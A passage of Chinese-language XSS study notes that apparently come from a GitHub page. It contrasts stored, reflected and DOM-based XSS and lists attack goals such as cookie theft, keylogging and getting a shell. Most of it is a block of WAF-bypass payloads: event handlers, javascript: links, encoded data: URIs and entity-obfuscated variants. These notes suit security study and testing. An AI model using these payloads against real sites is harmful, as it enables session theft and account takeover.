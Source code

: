    ****

- 三种漏洞`区别`

  - `存储型XSS`与`反射型XSS`的区别:存储型XSS的恶意代码存在数据库里,反射型XSS的恶意代码存在URL里

  - `DOM型与其它两种`的区别:DOM型XSS攻击中,取出和执行恶意代码由浏览器端完成,属于前端Javascript自身的安全漏洞,而其它两种XSS都属于服务端的安全漏洞

    ****

#### xss的简单利用

- XSS获取管理员权限(获得cookie)
- xss键盘记录
- xss获取页面源代码,前端代码
- xss获取内网ip通过对内网进行扫描
- xss组合其它漏洞getshell
- 利用xss进行水坑攻击/钓鱼攻击
- 其他利用

#### xss绕过waf

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
    width: ｅｘｐｒｅｓｓｉｏｎ(alert(1))
    <!--TODO:使用全角字符-->
    <style>@import 'javasc/ri/0pt:alert("xss")';</style>
</head>
<body>
<img src="x"><script>alert(1)</script></img>
<img src="invalid_image.png" onerror="alert(1)">
<img src="1" onerror="alert(1)">
<body onload=alert(1)>
<p onmouseover=alert(1)>test</p>
<a href="javascript:alert(1)">test</a>
<img src="1" onerror="javascript:alert(1)">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==" ></object>
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>


<iMg src="#" onerror="alert(1)"/>
<img src='#' onerror='alert(1)'/>
<img src=# onerror=alert(1) />


<Img/Src='#'/Onerror="alert(1)"/>
<a href="javascript:alert(1)">test</a>





<A hREf="j&#97;v&#x61;script:alert(1)">test</A>


<A href="&#01;j&#97;v&#x61;s&#9;c&#10;r&#13;ipt:alert(/xss/)">点击</A>


<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x2f;&#x78;&#x73;&#x73;&#x2f;&#x29;">点击</a>
```